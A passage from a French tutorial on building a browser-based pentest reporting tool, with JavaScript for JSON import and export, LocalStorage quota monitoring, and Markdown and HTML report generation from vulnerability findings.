    return new Promise((resolve, reject) => {
        const reader = new FileReader();
        
        reader.onload = (e) => {
            try {
                const data = JSON.parse(e.target.result);
                resolve(data);
            } catch (error) {
                reject(new Error(`JSON invalide : ${error.message}`));
            }
        };
        
        reader.onerror = () => {
            reject(new Error('Erreur lecture fichier'));
        };
        
        reader.readAsText(file);
    });
}

// Exporter fonctions
window.ExportUtils = {
    exportAll: exportAllData,
    downloadJSON: downloadJSON,
    validate: validateImportData,
    import: importFromJSON,
    readFile: readJSONFile
};
```

1. **Version** : Permet de gérer migrations futures si format change
2. **Pretty print** : `null, 2` = indentation 2 espaces (lisible)
3. **Cleanup URL** : Libérer mémoire après téléchargement
4. **Validation stricte** : Vérifier structure avant import (évite corruption)
5. **Stratégies** : `merge` = ajoute, `replace` = remplace tout
6. **FileReader** : API navigateur pour lire fichiers locaux

### 5.4 Interface Import/Export

**Ajouter dans `pentestApp()` :**

```javascript
// État import
importFile: null,
importStrategy: 'merge',
importResult: null,
importErrors: [],

/**
 * Export JSON
 */
async exportData() {
    try {
        const filename = `pentest-findings-${new Date().toISOString().split('T')[0]}.json`; // (1)!
        window.ExportUtils.downloadJSON(filename);
        
        // Notification
        this.$dispatch('notification', {
            type: 'success',
            message: 'Export réussi'
        });
    } catch (error) {
        console.error('Export failed:', error);
        this.$dispatch('notification', {
            type: 'error',
            message: 'Erreur export : ' + error.message
        });
    }
},

/**
 * Import JSON
 */
async importData() {
    if (!this.importFile) {
        alert('Veuillez sélectionner un fichier');
        return;
    }
    
    try {
        // Lire fichier
        const data = await window.ExportUtils.readFile(this.importFile);
        
        // Valider
        const validation = window.ExportUtils.validate(data);
        if (!validation.valid) {
            this.importErrors = validation.errors;
            alert('Fichier invalide : ' + validation.errors.join(', '));
            return;
        }
        
        // Confirmer si replace
        if (this.importStrategy === 'replace') {
            if (!confirm(`Remplacer ${this.findings.length} findings existants par ${data.findings.length} findings importés ?`)) {
                return;
            }
        }
        
        // Importer
        const result = window.ExportUtils.import(data, this.importStrategy);
        
        // Recharger findings (forcer Alpine à réagir)
        this.findings = JSON.parse(localStorage.getItem('findings') || '[]');
        
        this.importResult = result;
        
        // Notification
        this.$dispatch('notification', {
            type: 'success',
            message: `Import réussi : ${result.imported} findings importés (${result.total} total)`
        });
        
        // Reset
        this.importFile = null;
        
    } catch (error) {
        console.error('Import failed:', error);
        alert('Erreur import : ' + error.message);
    }
},

/**
 * Reset toutes les données (avec confirmation)
 */
resetAllData() {
    if (!confirm('⚠️ ATTENTION : Supprimer TOUTES les données (findings, settings) ? Cette action est IRRÉVERSIBLE.')) {
        return;
    }
    
    if (!confirm('Dernière confirmation : Êtes-vous CERTAIN de vouloir tout supprimer ?')) {
        return;
    }
    
    // Supprimer LocalStorage
    localStorage.removeItem('findings');
    localStorage.removeItem('app-settings');
    localStorage.removeItem('app-theme');
    
    // Reset état Alpine
    this.findings = [];
    this.settings = {
        autoSave: true,
        notifications: true,
        theme: 'light',
        defaultSeverity: 'medium',
        defaultStatus: 'open',
        defaultDiscoveredBy: '',
        language: 'fr',
        dateFormat: 'fr-FR',
        exportFormat: 'markdown'
    };
    
    console.log('Toutes les données supprimées');
    
    // Notification
    this.$dispatch('notification', {
        type: 'warning',
        message: 'Toutes les données ont été supprimées'
    });
},
```

1. **Filename dynamique** : Ajoute date au nom (ex: `pentest-findings-2025-01-15.json`)

**Template Modal Import/Export (nouveau modal) :**

```html
<!-- Modal Import/Export -->
<div x-data="{ get isOpen() { return $data.modalImportExport }, close() { $data.modalImportExport = false } }">
    <template x-if="isOpen">
        <div class="fixed inset-0 z-50 flex items-center justify-center p-4" x-transition>
            
            <!-- Backdrop -->
            <div @click="close()" class="absolute inset-0 bg-black bg-opacity-50"></div>
            
            <!-- Modal -->
            <div @click.stop
                 x-trap="isOpen"
                 class="relative bg-white dark:bg-gray-800 rounded-lg shadow-xl max-w-2xl w-full">
                
                <!-- Header -->
                <div class="px-6 py-4 border-b flex items-center justify-between">
                    <h2 class="text-xl font-semibold">Import / Export</h2>
                    <button @click="close()">
                        <svg class="w-6 h-6" fill="none" stroke="currentColor" viewBox="0 0 24 24">
                            <path stroke-linecap="round" stroke-linejoin="round" stroke-width="2" d="M6 18L18 6M6 6l12 12"></path>
                        </svg>
                    </button>
                </div>
                
                <div class="px-6 py-6 space-y-6">
                    
                    <!-- EXPORT -->
                    <div class="border-b pb-6">
                        <h3 class="text-lg font-semibold mb-4">Exporter les Données</h3>
                        <p class="text-sm text-gray-600 dark:text-gray-400 mb-4">
                            Télécharge toutes vos données (findings + settings) en format JSON.
                        </p>
                        <div class="flex items-center justify-between p-4 bg-blue-50 dark:bg-gray-700 rounded-lg">
                            <div>
                                <p class="font-medium text-gray-900 dark:text-white">
                                    <span x-text="findings.length"></span> findings
                                </p>
                                <p class="text-sm text-gray-600 dark:text-gray-400">
                                    Dernière modification : <span x-text="new Date().toLocaleDateString('fr-FR')"></span>
                                </p>
                            </div>
                            <button @click="exportData()"
                                    class="px-6 py-2 bg-blue-600 text-white rounded-lg hover:bg-blue-700 flex items-center gap-2">
                                <svg class="w-5 h-5" fill="none" stroke="currentColor" viewBox="0 0 24 24">
                                    <path stroke-linecap="round" stroke-linejoin="round" stroke-width="2" d="M4 16v1a3 3 0 003 3h10a3 3 0 003-3v-1m-4-4l-4 4m0 0l-4-4m4 4V4"></path>
                                </svg>
                                Télécharger JSON
                            </button>
                        </div>
                    </div>
                    
                    <!-- IMPORT -->
                    <div>
                        <h3 class="text-lg font-semibold mb-4">Importer les Données</h3>
                        <p class="text-sm text-gray-600 dark:text-gray-400 mb-4">
                            Importe des findings depuis un fichier JSON exporté.
                        </p>
                        
                        <!-- Upload fichier -->
                        <div class="mb-4">
                            <label class="block text-sm font-medium mb-2">Fichier JSON</label>
                            <input type="file"
                                   accept=".json"
                                   @change="importFile = $event.target.files[0]"
                                   class="block w-full text-sm text-gray-900 border border-gray-300 rounded-lg cursor-pointer bg-gray-50 dark:bg-gray-700">
                            <p x-show="importFile" 
                               class="text-sm text-gray-500 mt-1">
                                Fichier sélectionné : <span x-text="importFile?.name"></span>
                            </p>
                        </div>
                        
                        <!-- Stratégie import -->
                        <div class="mb-4">
                            <label class="block text-sm font-medium mb-2">Stratégie d'import</label>
                            <div class="space-y-2">
                                <label class="flex items-center gap-2 cursor-pointer">
                                    <input type="radio" 
                                           value="merge" 
                                           x-model="importStrategy"
                                           class="text-blue-600">
                                    <div>
                                        <p class="font-medium text-sm">Fusionner (Merge)</p>
                                        <p class="text-xs text-gray-500">Ajoute les nouveaux findings sans supprimer les existants</p>
                                    </div>
                                </label>
                                <label class="flex items-center gap-2 cursor-pointer">
                                    <input type="radio" 
                                           value="replace" 
                                           x-model="importStrategy"
                                           class="text-blue-600">
                                    <div>
                                        <p class="font-medium text-sm text-red-600">Remplacer (Replace)</p>
                                        <p class="text-xs text-gray-500">⚠️ Supprime TOUS les findings existants</p>
                                    </div>
                                </label>
                            </div>
                        </div>
                        
                        <button @click="importData()"
                                :disabled="!importFile"
                                class="w-full px-6 py-3 bg-green-600 text-white rounded-lg hover:bg-green-700 disabled:opacity-50 disabled:cursor-not-allowed flex items-center justify-center gap-2">
                            <svg class="w-5 h-5" fill="none" stroke="currentColor" viewBox="0 0 24 24">
                                <path stroke-linecap="round" stroke-linejoin="round" stroke-width="2" d="M4 16v1a3 3 0 003 3h10a3 3 0 003-3v-1m-4-8l-4-4m0 0L8 8m4-4v12"></path>
                            </svg>
                            Importer
                        </button>
                        
                        <!-- Résultat import -->
                        <div x-show="importResult" 
                             x-transition
                             class="mt-4 p-4 bg-green-50 dark:bg-gray-700 rounded-lg">
                            <p class="text-sm text-green-800 dark:text-green-200">
                                ✓ Import réussi : 
                                <span x-text="importResult?.imported"></span> findings importés
                                (<span x-text="importResult?.total"></span> total)
                            </p>
                        </div>
                        
                        <!-- Erreurs import -->
                        <div x-show="importErrors.length > 0" 
                             x-transition
                             class="mt-4 p-4 bg-red-50 dark:bg-gray-700 rounded-lg">
                            <p class="text-sm text-red-800 dark:text-red-200 font-medium mb-2">
                                Erreurs de validation :
                            </p>
                            <ul class="text-xs text-red-700 dark:text-red-300 space-y-1">
                                <template x-for="error in importErrors" :key="error">
                                    <li x-text="'- ' + error"></li>
                                </template>
                            </ul>
                        </div>
                    </div>
                    
                    <!-- DANGER ZONE -->
                    <div class="border-t pt-6">
                        <h3 class="text-lg font-semibold text-red-600 mb-4">Zone Dangereuse</h3>
                        <div class="p-4 bg-red-50 dark:bg-red-900/20 border border-red-200 dark:border-red-800 rounded-lg">
                            <p class="text-sm text-red-800 dark:text-red-200 mb-3">
                                ⚠️ Supprime TOUTES les données (findings, settings). Action irréversible.
                            </p>
                            <button @click="resetAllData()"
                                    class="px-4 py-2 bg-red-600 text-white rounded-lg hover:bg-red-700">
                                Tout Supprimer
                            </button>
                        </div>
                    </div>
                    
                </div>
                
            </div>
        </div>
    </template>
</div>
```

**Ajouter bouton dans header :**

```html
<!-- Dans header, après dark mode -->
<button @click="modalImportExport = true"
        class="p-2 rounded-lg hover:bg-gray-100 dark:hover:bg-gray-700 transition">
    <svg class="w-5 h-5" fill="none" stroke="currentColor" viewBox="0 0 24 24">
        <path stroke-linecap="round" stroke-linejoin="round" stroke-width="2" d="M8 7H5a2 2 0 00-2 2v9a2 2 0 002 2h14a2 2 0 002-2V9a2 2 0 00-2-2h-3m-1 4l-3 3m0 0l-3-3m3 3V4"></path>
    </svg>
</button>
```

**Charger script export dans `index.html` :**

```html
<script src="assets/js/utils/cvss-calculator.js"></script>
<script src="assets/js/utils/export.js"></script> <!-- Nouveau -->
```

### 5.5 Gestion Quota LocalStorage

**Ajouter utilitaire dans `export.js` :**

```javascript
/**
 * Vérifier espace disponible LocalStorage
 */
function checkStorageQuota() {
    let total = 0;
    for (let key in localStorage) {
        if (localStorage.hasOwnProperty(key)) {
            total += localStorage[key].length + key.length;
        }
    }
    
    // LocalStorage limite ~5-10MB selon navigateur
    const limitMB = 5;
    const usedMB = (total / 1024 / 1024).toFixed(2);
    const percentUsed = ((total / (limitMB * 1024 * 1024)) * 100).toFixed(1);
    
    return {
        used: total,
        usedMB: usedMB,
        limitMB: limitMB,
        percentUsed: percentUsed,
        available: (limitMB * 1024 * 1024) - total
    };
}

// Ajouter à window.ExportUtils
window.ExportUtils.checkQuota = checkStorageQuota;
```

**Afficher dans modal Import/Export :**

```html
<!-- Après Import, avant Danger Zone -->
<div class="border-t pt-6">
    <h3 class="text-lg font-semibold mb-4">Stockage Local</h3>
    <div x-data="{ quota: window.ExportUtils.checkQuota() }"
         x-init="setInterval(() => quota = window.ExportUtils.checkQuota(), 5000)"
         class="p-4 bg-gray-50 dark:bg-gray-700 rounded-lg">
        <div class="flex justify-between mb-2">
            <span class="text-sm">Espace utilisé</span>
            <span class="text-sm font-medium">
                <span x-text="quota.usedMB"></span> MB / <span x-text="quota.limitMB"></span> MB
            </span>
        </div>
        <div class="w-full bg-gray-200 dark:bg-gray-600 rounded-full h-2">
            <div class="bg-blue-600 h-2 rounded-full transition-all"
                 :style="`width: ${quota.percentUsed}%`"
                 :class="{
                     'bg-green-600': quota.percentUsed < 50,
                     'bg-yellow-600': quota.percentUsed >= 50 && quota.percentUsed < 80,
                     'bg-red-600': quota.percentUsed >= 80
                 }"></div>
        </div>
        <p class="text-xs text-gray-500 mt-1">
            <span x-text="quota.percentUsed"></span>% utilisé
        </p>
    </div>
</div>
```

### Points Clés à Retenir Phase 5

- 🔑 **$persist()** : Sauvegarde automatique multiples stores
- 🔑 **Export JSON** : Format standard portable entre navigateurs
- 🔑 **Validation** : Vérifier structure avant import (évite corruption)
- 🔑 **Stratégies import** : Merge (ajout) vs Replace (remplacement)
- 🔑 **FileReader API** : Lire fichiers locaux dans navigateur
- 🔑 **Quota monitoring** : Surveiller espace LocalStorage disponible
- 🔑 **Backup pattern** : Export régulier = backup manuel

### Checkpoint Phase 5

Vérifiez que vous pouvez :

- ✅ Cliquer "Export" → Télécharge findings.json
- ✅ Ouvrir findings.json → Format valide, lisible
- ✅ Importer JSON (merge) → Findings ajoutés sans doublons
- ✅ Importer JSON (replace) → Tous findings remplacés
- ✅ Fichier invalide → Erreurs affichées
- ✅ Quota storage affiché correctement
- ✅ "Tout Supprimer" → Double confirmation + reset complet

---

## Phase 6 : Export Multi-Format (2h)

<div class="omny-meta" data-level="🟡 Intermédiaire → 🔴 Avancé" data-time="2 heures"></div>

### Objectifs Phase 6

À la fin de cette phase, vous saurez :

- ✅ Générer un rapport Markdown professionnel
- ✅ Créer un export HTML standalone stylisé
- ✅ Optimiser pour impression PDF
- ✅ Utiliser templates de rapports
- ✅ Personnaliser le contenu exporté
- ✅ Générer table des matières automatique

### 6.1 Générateur Markdown

**Fichier :** Créer `assets/js/utils/markdown-generator.js`

```javascript
/**
 * Générateur Rapport Markdown
 * Crée un rapport professionnel de pentest en Markdown
 */

/**
 * Générer rapport Markdown complet
 */
function generateMarkdownReport(findings, options = {}) { // (1)!
    const {
        title = 'Rapport de Test d\'Intrusion',
        client = 'Client',
        tester = 'Pentester',
        date = new Date().toLocaleDateString('fr-FR'),
        executive = true,
        toc = true,
        detailed = true
    } = options;
    
    let markdown = '';
    
    // Header
    markdown += `# ${title}\n\n`;
    markdown += `**Client :** ${client}  \n`;
    markdown += `**Date :** ${date}  \n`;
    markdown += `**Pentester :** ${tester}  \n`;
    markdown += `**Nombre de vulnérabilités :** ${findings.length}\n\n`;
    markdown += `---\n\n`;
    
    // Résumé Exécutif
    if (executive) {
        markdown += generateExecutiveSummary(findings);
    }
    
    // Table des Matières
    if (toc) {
        markdown += generateTableOfContents(findings);
    }
    
    // Findings détaillés
    if (detailed) {
        markdown += generateDetailedFindings(findings);
    }
    
    // Annexes
    markdown += generateAnnexes(findings);
    
    return markdown;
}

/**
 * Résumé Exécutif
 */
function generateExecutiveSummary(findings) {
    const stats = calculateStats(findings);
    
    let md = `## Résumé Exécutif\n\n`;
    
    md += `Ce rapport présente les résultats du test d'intrusion effectué. `;
    md += `**${findings.length} vulnérabilités** ont été identifiées, dont `;
    md += `**${stats.critical} critiques** et **${stats.high} élevées**.\n\n`;
    
    md += `### Répartition par Sévérité\n\n`;
    md += `| Sévérité | Nombre | Pourcentage |\n`;
    md += `|----------|--------|-------------|\n`;
    md += `| 🔴 Critical | ${stats.critical} | ${stats.criticalPercent}% |\n`;
    md += `| 🟠 High | ${stats.high} | ${stats.highPercent}% |\n`;
    md += `| 🟡 Medium | ${stats.medium} | ${stats.mediumPercent}% |\n`;
    md += `| 🟢 Low | ${stats.low} | ${stats.lowPercent}% |\n`;
    md += `| 🔵 Info | ${stats.info} | ${stats.infoPercent}% |\n\n`;
    
    // Score CVSS moyen
    if (stats.avgCVSS > 0) {
        md += `**Score CVSS moyen :** ${stats.avgCVSS.toFixed(1)} / 10.0\n\n`;
    }
    
    // Recommandations prioritaires
    md += `### Recommandations Prioritaires\n\n`;
    const critical = findings.filter(f => f.severity === 'critical');
    if (critical.length > 0) {
        md += `Les **${critical.length} vulnérabilités critiques** doivent être corrigées **immédiatement** :\n\n`;
        critical.slice(0, 3).forEach((f, i) => { // Top 3
            md += `${i + 1}. ${f.title}\n`;
        });
        md += `\n`;
    }
    
    md += `---\n\n`;
    return md;
}

/**
 * Table des Matières
 */
function generateTableOfContents(findings) {
    let md = `## Table des Matières\n\n`;
    
    findings.forEach((finding, index) => {
        const anchor = finding.title.toLowerCase()
            .replace(/[^\w\s-]/g, '')
            .replace(/\s+/g, '-');
        
        const severity = finding.severity === 'critical' ? '🔴' :
                        finding.severity === 'high' ? '🟠' :
                        finding.severity === 'medium' ? '🟡' :
                        finding.severity === 'low' ? '🟢' : '🔵';
        
        md += `${index + 1}. [${severity} ${finding.title}](#${anchor})  \n`;
    });
    
    md += `\n---\n\n`;
    return md;
}

/**
 * Findings Détaillés
 */
function generateDetailedFindings(findings) {
    let md = `## Vulnérabilités Détaillées\n\n`;
    
    // Grouper par sévérité
    const grouped = {
        critical: findings.filter(f => f.severity === 'critical'),
        high: findings.filter(f => f.severity === 'high'),
        medium: findings.filter(f => f.severity === 'medium'),
        low: findings.filter(f => f.severity === 'low'),
        info: findings.filter(f => f.severity === 'info')
    };
    
    const severities = [
        { key: 'critical', label: 'Critiques', emoji: '🔴' },
        { key: 'high', label: 'Élevées', emoji: '🟠' },
        { key: 'medium', label: 'Moyennes', emoji: '🟡' },
        { key: 'low', label: 'Faibles', emoji: '🟢' },
        { key: 'info', label: 'Informatives', emoji: '🔵' }
    ];
    
    let findingNumber = 1;
    
    severities.forEach(sev => {
        const list = grouped[sev.key];
        if (list.length === 0) return;
        
        md += `### ${sev.emoji} Vulnérabilités ${sev.label} (${list.length})\n\n`;
        
        list.forEach(finding => {
            md += generateFindingSection(finding, findingNumber);
            findingNumber++;
        });
    });
    
    return md;
}

/**
 * Section Finding Individuel
 */
function generateFindingSection(finding, number) { // (2)!
    let md = `#### ${number}. ${finding.title}\n\n`;
    
    // Métadonnées
    md += `**Sévérité :** ${finding.severity.toUpperCase()}  \n`;
    md += `**Statut :** ${finding.status}  \n`;
    md += `**Catégorie :** ${finding.category}  \n`;
    
    if (finding.cvss) {
        md += `**Score CVSS :** ${finding.cvss.score.toFixed(1)} (${finding.cvss.rating})  \n`;
        md += `**Vecteur CVSS :** \`${finding.cvss.vector}\`  \n`;
    }
    
    if (finding.discoveredBy) {
        md += `**Découvert par :** ${finding.discoveredBy}  \n`;
    }
    
    md += `\n`;
    
    // Description
    if (finding.description) {
        md += `**Description :**\n\n`;
        md += `${finding.description}\n\n`;
    }
    
    // Impact
    if (finding.impact) {
        md += `**Impact :**\n\n`;
        md += `${finding.impact}\n\n`;
    }
    
    // Reproduction
    if (finding.reproduction && finding.reproduction.length > 0) {
        md += `**Étapes de Reproduction :**\n\n`;
        finding.reproduction.forEach((step, i) => {
            if (step.trim()) {
                md += `${i + 1}. ${step}\n`;
            }
        });
        md += `\n`;
    }
    
    // Proof of Concept
    if (finding.proofOfConcept) {
        md += `**Preuve de Concept :**\n\n`;
        md += `\`\`\`bash\n${finding.proofOfConcept}\n\`\`\`\n\n`;
    }
    
    // Remédiation
    if (finding.remediation) {
        md += `**Recommandation :**\n\n`;
        md += `${finding.remediation}\n\n`;
    }
    
    // Références
    if (finding.references && finding.references.length > 0) {
        md += `**Références :**\n\n`;
        finding.references.forEach(ref => {
            if (ref.trim()) {
                md += `- ${ref}\n`;
            }
        });
        md += `\n`;
    }
    
    md += `---\n\n`;
    return md;
}

/**
 * Annexes
 */
function generateAnnexes(findings) {
    let md = `## Annexes\n\n`;
    
    md += `### A. Méthodologie\n\n`;
    md += `Les tests ont été effectués selon la méthodologie OWASP Testing Guide v4.\n\n`;
    
    md += `### B. Outils Utilisés\n\n`;
    md += `- Burp Suite Professional\n`;
    md += `- SQLMap\n`;
    md += `- Nmap\n`;
    md += `- OWASP ZAP\n\n`;
    
    md += `### C. Glossaire\n\n`;
    md += `**CVSS :** Common Vulnerability Scoring System  \n`;
    md += `**XSS :** Cross-Site Scripting  \n`;
    md += `**SQL Injection :** Injection de code SQL  \n`;
    md += `**CSRF :** Cross-Site Request Forgery  \n\n`;
    
    return md;
}

/**
 * Calculer statistiques
 */
function calculateStats(findings) {
    const total = findings.length;
    const critical = findings.filter(f => f.severity === 'critical').length;
    const high = findings.filter(f => f.severity === 'high').length;
    const medium = findings.filter(f => f.severity === 'medium').length;
    const low = findings.filter(f => f.severity === 'low').length;
    const info = findings.filter(f => f.severity === 'info').length;
    
    // CVSS moyen
    const cvssScores = findings
        .filter(f => f.cvss && f.cvss.score)
        .map(f => f.cvss.score);
    const avgCVSS = cvssScores.length > 0 
        ? cvssScores.reduce((a, b) => a + b, 0) / cvssScores.length 
        : 0;
    
    return {
        total,
        critical,
        high,
        medium,
        low,
        info,
        criticalPercent: total > 0 ? ((critical / total) * 100).toFixed(1) : 0,
        highPercent: total > 0 ? ((high / total) * 100).toFixed(1) : 0,
        mediumPercent: total > 0 ? ((medium / total) * 100).toFixed(1) : 0,
        lowPercent: total > 0 ? ((low / total) * 100).toFixed(1) : 0,
        infoPercent: total > 0 ? ((info / total) * 100).toFixed(1) : 0,
        avgCVSS
    };
}

/**
 * Télécharger Markdown
 */
function downloadMarkdown(markdown, filename = 'rapport-pentest.md') {
    const blob = new Blob([markdown], { type: 'text/markdown' });
    const url = URL.createObjectURL(blob);
    
    const a = document.createElement('a');
    a.href = url;
    a.download = filename;
    document.body.appendChild(a);
    a.click();
    document.body.removeChild(a);
    URL.revokeObjectURL(url);
}

// Exporter
window.MarkdownGenerator = {
    generate: generateMarkdownReport,
    download: downloadMarkdown
};
```

1. **Options configurables** : Permettre personnalisation du rapport
2. **Section complète** : Template professionnel pour chaque finding

### 6.2 Générateur HTML

**Fichier :** Créer `assets/js/utils/html-generator.js`

```javascript
/**
 * Générateur Rapport HTML
 * Crée un rapport HTML standalone avec CSS inline
 */

/**
 * Template HTML complet
 */
function generateHTMLReport(findings, options = {}) {
    const {
        title = 'Rapport de Test d\'Intrusion',
        client = 'Client',
        tester = 'Pentester',
        date = new Date().toLocaleDateString('fr-FR')
    } = options;
    
    const stats = calculateStats(findings);
    
    return `<!DOCTYPE html>
<html lang="fr">
<head>
    <meta charset="UTF-8">
    <meta name="viewport" content="width=device-width, initial-scale=1.0">
    <title>${title} - ${client}</title>
    <style>
        ${getCSS()}
    </style>
</head>
<body>
    <div class="container">
        <!-- Header -->
        <header class="report-header">
            <h1>${title}</h1>
            <div class="metadata">
                <p><strong>Client :</strong> ${client}</p>
                <p><strong>Date :</strong> ${date}</p>
                <p><strong>Pentester :</strong> ${tester}</p>
                <p><strong>Nombre de vulnérabilités :</strong> ${findings.length}</p>
            </div>
        </header>
        
        <!-- Résumé Exécutif -->
        <section class="executive-summary">
            <h2>Résumé Exécutif</h2>
            <p>
                Ce rapport présente les résultats du test d'intrusion effectué. 
                <strong>${findings.length} vulnérabilités</strong> ont été identifiées, dont 
                <strong>${stats.critical} critiques</strong> et <strong>${stats.high} élevées</strong>.
            </p>
            
            <h3>Répartition par Sévérité</h3>
            <table class="severity-table">
                <thead>
                    <tr>
                        <th>Sévérité</th>
                        <th>Nombre</th>
                        <th>Pourcentage</th>
                    </tr>
                </thead>
                <tbody>
                    <tr class="critical">
                        <td>Critical</td>
                        <td>${stats.critical}</td>
                        <td>${stats.criticalPercent}%</td>
                    </tr>
                    <tr class="high">
                        <td>High</td>
                        <td>${stats.high}</td>
                        <td>${stats.highPercent}%</td>
                    </tr>
                    <tr class="medium">
                        <td>Medium</td>
                        <td>${stats.medium}</td>
                        <td>${stats.mediumPercent}%</td>
                    </tr>
                    <tr class="low">
                        <td>Low</td>
                        <td>${stats.low}</td>
                        <td>${stats.lowPercent}%</td>
                    </tr>
                    <tr class="info">
                        <td>Info</td>
                        <td>${stats.info}</td>
                        <td>${stats.infoPercent}%</td>
                    </tr>
                </tbody>
            </table>
            
            ${stats.avgCVSS > 0 ? `<p><strong>Score CVSS moyen :</strong> ${stats.avgCVSS.toFixed(1)} / 10.0</p>` : ''}
        </section>
        
        <!-- Findings -->
        <section class="findings">
            <h2>Vulnérabilités Détaillées</h2>
            ${generateHTMLFindings(findings)}
        </section>
        
        <!-- Footer -->
        <footer class="report-footer">
            <p>Rapport généré le ${new Date().toLocaleString('fr-FR')} par Pentest Reporting Tool</p>
        </footer>
    </div>
</body>
</html>`;
}

/**
 * CSS Inline Professionnel
 */
function getCSS() {
    return `
        * {
            margin: 0;
            padding: 0;
            box-sizing: border-box;
        }
        
        body {
            font-family: 'Segoe UI', Tahoma, Geneva, Verdana, sans-serif;
            line-height: 1.6;
            color: #333;
            background: #f5f5f5;
        }
        
        .container {
            max-width: 1200px;
            margin: 0 auto;
            background: white;
            padding: 40px;
            box-shadow: 0 2px 10px rgba(0,0,0,0.1);
        }
        
        .report-header {
            border-bottom: 3px solid #2563eb;
            padding-bottom: 20px;
            margin-bottom: 40px;
        }
        
        .report-header h1 {
            color: #1e40af;
            font-size: 2.5em;
            margin-bottom: 10px;
        }
        
        .metadata {
            font-size: 0.95em;
            color: #666;
        }
        
        .metadata p {
            margin: 5px 0;
        }
        
        section {
            margin-bottom: 40px;
        }
        
        h2 {
            color: #1e40af;
            border-bottom: 2px solid #e5e7eb;
            padding-bottom: 10px;
            margin-bottom: 20px;
        }
        
        h3 {
            color: #374151;
            margin: 20px 0 10px;
        }
        
        .severity-table {
            width: 100%;
            border-collapse: collapse;
            margin: 20px 0;
        }
        
        .severity-table th,
        .severity-table td {
            padding: 12px;
            text-align: left;
            border: 1px solid #e5e7eb;
        }
        
        .severity-table th {
            background: #f3f4f6;
            font-weight: 600;
        }
        
        .severity-table tr.critical td:first-child { 
            background: #fee2e2; 
            color: #991b1b;
            font-weight: 600;
        }
        .severity-table tr.high td:first-child { 
            background: #fed7aa; 
            color: #9a3412;
            font-weight: 600;
        }
        .severity-table tr.medium td:first-child { 
            background: #fef3c7; 
            color: #92400e;
            font-weight: 600;
        }
        .severity-table tr.low td:first-child { 
            background: #d1fae5; 
            color: #065f46;
            font-weight: 600;
        }
        .severity-table tr.info td:first-child { 
            background: #dbeafe; 
            color: #1e40af;
            font-weight: 600;
        }
        
        .finding-card {
            border: 1px solid #e5e7eb;
            border-left: 4px solid #6b7280;
            padding: 20px;
            margin-bottom: 30px;
            background: #fafafa;
            page-break-inside: avoid;
        }
        
        .finding-card.critical { border-left-color: #dc2626; }
        .finding-card.high { border-left-color: #ea580c; }
        .finding-card.medium { border-left-color: #ca8a04; }
        .finding-card.low { border-left-color: #16a34a; }
        .finding-card.info { border-left-color: #2563eb; }
        
        .finding-header {
            margin-bottom: 15px;
        }
        
        .finding-header h3 {
            margin: 0 0 10px 0;
            color: #111827;
        }
        
        .finding-meta {
            display: flex;
            flex-wrap: wrap;
            gap: 15px;
            font-size: 0.9em;
            color: #6b7280;
            margin-bottom: 15px;
        }
        
        .finding-meta span {
            background: white;
            padding: 4px 12px;
            border-radius: 4px;
            border: 1px solid #e5e7eb;
        }
        
        .finding-section {
            margin: 15px 0;
        }
        
        .finding-section h4 {
            color: #374151;
            margin-bottom: 8px;
            font-size: 1em;
        }
        
        .finding-section p,
        .finding-section ol {
            color: #4b5563;
            margin-bottom: 10px;
        }
        
        .finding-section ol {
            margin-left: 20px;
        }
        
        .finding-section code {
            background: #f3f4f6;
            padding: 10px;
            display: block;
            border-radius: 4px;
            font-family: 'Courier New', monospace;
            font-size: 0.9em;
            overflow-x: auto;
            white-space: pre-wrap;
        }
        
        .report-footer {
            border-top: 2px solid #e5e7eb;
            padding-top: 20px;
            text-align: center;
            color: #9ca3af;
            font-size: 0.9em;
        }
        
        /* Print styles */
        @media print {
            body {
                background: white;
            }
            .container {
                box-shadow: none;
                padding: 0;
            }
            .finding-card {
                page-break-inside: avoid;
            }
        }
    `;
}

/**
 * Générer cards findings HTML
 */
function generateHTMLFindings(findings) {
    const grouped = {
        critical: findings.filter(f => f.severity === 'critical'),
        high: findings.filter(f => f.severity === 'high'),
        medium: findings.filter(f => f.severity === 'medium'),
        low: findings.filter(f => f.severity === 'low'),
        info: findings.filter(f => f.severity === 'info')
    };
    
    let html = '';
    let number = 1;
    
    ['critical', 'high', 'medium', 'low', 'info'].forEach(severity => {
        grouped[severity].forEach(finding => {
            html += `
            <div class="finding-card ${severity}">
                <div class="finding-header">
                    <h3>${number}. ${escapeHTML(finding.title)}</h3>
                </div>
                
                <div class="finding-meta">
                    <span><strong>Sévérité:</strong> ${severity.toUpperCase()}</span>
                    <span><strong>Statut:</strong> ${finding.status}</span>
                    <span><strong>Catégorie:</strong> ${finding.category}</span>
                    ${finding.cvss ? `<span><strong>CVSS:</strong> ${finding.cvss.score.toFixed(1)} (${finding.cvss.rating})</span>` : ''}
                </div>
                
                ${finding.description ? `
                <div class="finding-section">
                    <h4>Description</h4>
                    <p>${escapeHTML(finding.description)}</p>
                </div>
                ` : ''}
                
                ${finding.impact ? `
                <div class="finding-section">
                    <h4>Impact</h4>
                    <p>${escapeHTML(finding.impact)}</p>
                </div>
                ` : ''}
                
                ${finding.reproduction && finding.reproduction.length > 0 ? `
                <div class="finding-section">
                    <h4>Étapes de Reproduction</h4>
                    <ol>
                        ${finding.reproduction.filter(s => s.trim()).map(step => `<li>${escapeHTML(step)}</li>`).join('')}
                    </ol>
                </div>
                ` : ''}
                
                ${finding.proofOfConcept ? `
                <div class="finding-section">
                    <h4>Preuve de Concept</h4>
                    <code>${escapeHTML(finding.proofOfConcept)}</code>
                </div>
                ` : ''}
                
                ${finding.remediation ? `
                <div class="finding-section">
                    <h4>Recommandation</h4>
                    <p>${escapeHTML(finding.remediation)}</p>
                </div>
                ` : ''}
                
                ${finding.references && finding.references.filter(r => r.trim()).length > 0 ? `
                <div class="finding-section">
                    <h4>Références</h4>
                    <ul>
                        ${finding.references.filter(r => r.trim()).map(ref => `<li>${escapeHTML(ref)}</li>`).join('')}
                    </ul>
                </div>
                ` : ''}
            </div>
            `;
            number++;
        });
    });
    
    return html;
}

/**
 * Escape HTML
 */
function escapeHTML(text) {
    const div = document.createElement('div');
    div.textContent = text;
    return div.innerHTML;
}

/**
 * Calculer stats (copie de markdown-generator)
 */
function calculateStats(findings) {
    const total = findings.length;
    const critical = findings.filter(f => f.severity === 'critical').length;
    const high = findings.filter(f => f.severity === 'high').length;
    const medium = findings.filter(f => f.severity === 'medium').length;
    const low = findings.filter(f => f.severity === 'low').length;
    const info = findings.filter(f => f.severity === 'info').length;
    
    const cvssScores = findings
        .filter(f => f.cvss && f.cvss.score)
        .map(f => f.cvss.score);
    const avgCVSS = cvssScores.length > 0 
